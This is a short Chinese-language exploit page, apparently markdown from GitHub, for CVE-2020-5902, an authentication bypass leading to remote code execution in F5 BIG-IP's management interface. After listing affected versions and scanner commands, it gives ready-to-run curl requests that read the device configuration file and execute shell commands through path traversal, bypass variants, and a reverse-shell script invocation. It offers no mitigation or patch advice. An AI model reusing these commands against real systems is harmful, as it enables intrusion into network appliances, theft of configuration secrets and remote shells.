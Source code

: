 ## 漏洞概述

认证绕过导致远程代码执行漏洞

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码

## 影响范围

```http
BIG-IP 15.1.0
BIG-IP 14.1.0~14.1.2
BIG-IP 13.1.0~13.1.3
BIG-IP 12.1.0~12.1.5
BIG-IP 11.6.1~11.6.5
```

## POC

```http
nuclei -tags bigip -t cves/ -l urls.txt

Goby
```

## EXP

文件读取

```bash
curl -v -k "https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf"
```

RCE

```bash
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

Bypass

```
..;  ==>  /hsqldb; 

..;  ==>  /hsqldb%0a
```

reverse shell:

```
./CVE-2020-5902.sh <server> <localip> <localport>
```

[@Budi Khoirudin](https://twitter.com/x4ce/status/1279790599793545216?s=21) 
[@jas502n](https://github.com/jas502n/CVE-2020-5902) 